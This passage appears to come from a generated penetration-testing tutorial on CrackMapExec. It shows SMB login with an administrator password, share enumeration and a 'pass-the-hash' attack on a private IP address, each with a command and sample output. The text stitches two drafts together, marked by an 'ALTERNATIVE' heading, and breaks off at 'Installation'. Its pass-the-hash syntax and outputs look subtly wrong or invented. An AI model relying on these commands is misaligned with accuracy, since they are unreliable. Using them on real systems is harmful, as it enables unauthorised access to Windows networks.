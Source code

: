**Expected Output:**
```
[*] 192.168.1.100: SMB         Administrator:password123    [*] Command output:
...
```

#### 3. Listing Shares on a Target

To list the shares available on a target system:

```bash
crackmapexec smb 192.168.1.100 -u Administrator -p password123 --shares
```

**Expected Output:**
```
SMB         192.168.1.100    445    Administrator:password123    [*] Shares
[*]     Share Name           Type
[*]     -----------          ----
[*]     C$                   Disk
[*]     IPC$                 Disk
```

#### 4. Performing a Pass-the-Hash Attack

To perform a pass-the-hash attack using a hash instead of a password:

```bash
crackmapexec smb 192.168.1.100 -u Administrator -p '$HASH'
```

**Expected Output:**
```
[*] 192.168.1.100: SMB         Administrator:$HASH    [*] Logged in!
```

### Important Considerations

- **Legal Use**: Always ensure you have permission to test the systems you are targeting. Unauthorized access is illegal and unethical.
- **Network Conditions**: The effectiveness of CrackMapExec can vary based on network configurations and security settings.

### Conclusion

CrackMapExec is a powerful tool for network penetration testing, enabling you to manage and exploit Windows systems efficiently. By understanding its syntax and options, you can effectively assess the security of your network. Always use this tool responsibly and within the legal framework.


                          ALTERNATIVE
**CrackMapExec** (CME) is a popular post-exploitation tool used for penetration testing and assessing the security of networks, particularly those using Windows. It is designed to simplify the process of assessing the security posture of large Active Directory networks.

### Installation
